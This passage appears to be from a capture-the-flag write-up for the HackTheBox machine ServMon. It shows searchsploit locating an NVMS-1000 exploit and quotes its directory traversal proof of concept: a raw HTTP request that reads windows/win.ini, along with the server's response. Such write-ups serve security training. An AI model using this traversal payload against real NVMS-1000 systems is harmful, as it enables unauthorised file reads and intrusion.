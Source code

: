 ![nvms-1000](/assets/images/htb-machine-servmon/01.png)

Find `nvms-1000` using `searchploit`

![01](/assets/images/htb-machine-servmon/02.png)

Copy the information using `searchploit -m hardware/webapps/47774.txt` and open 47774.txt. The information is showed below

```
# Title: NVMS-1000 - Directory Traversal
# Date: 2019-12-12
# Author: Numan Türle
# Vendor Homepage: http://en.tvt.net.cn/
# Version : N/A
# Software Link : http://en.tvt.net.cn/products/188.html

POC
---------

GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 12.0.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

Response
---------

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```